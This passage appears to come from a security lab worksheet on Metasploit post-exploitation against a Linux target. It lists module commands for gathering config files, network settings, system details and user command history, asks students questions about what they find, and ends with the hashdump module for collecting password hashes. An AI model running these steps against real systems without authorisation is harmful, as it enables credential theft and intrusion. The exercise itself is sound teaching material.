 > Action: Use the following methods to download system details.

The "enum_configs" module downloads and saves many interesting config files:

```bash
msf > use post/linux/gather/enum_configs
```

```bash
msf post(enum_configs) > exploit
```

The "enum_network" module downloads and saves information about network state and settings:

```bash
msf > use post/linux/gather/enum_network
```

```bash
msf post(enum_network) > exploit
```

The "enum_system" module downloads and saves information about the system, including the software installed, disk information, and so on:

```bash
msf > use post/linux/gather/enum_system
```

```bash
msf post(enum_system) > exploit
```

The "enum_users_history" module downloads and saves log files and command history:

```bash
msf > use post/linux/gather/enum_users_history
```

```bash
msf post(enum_users_history) > exploit
```

The output from the above will tell you where the "loot" was stored. 

Browse through the retrieved information and answer the following:

> Question: What exact version of the Linux kernel is the target system running?

> Question: What firewall rules are applied?

> Question: Does the system have IPv6 enabled?

> Question: What other information can you find?

### Password hash dumping {#password-hash-dumping}

==action: Run the post module "hashdump", to collect the hashes of all the user account passwords:==

```bash
msf > use post/linux/gather/hashdump
```
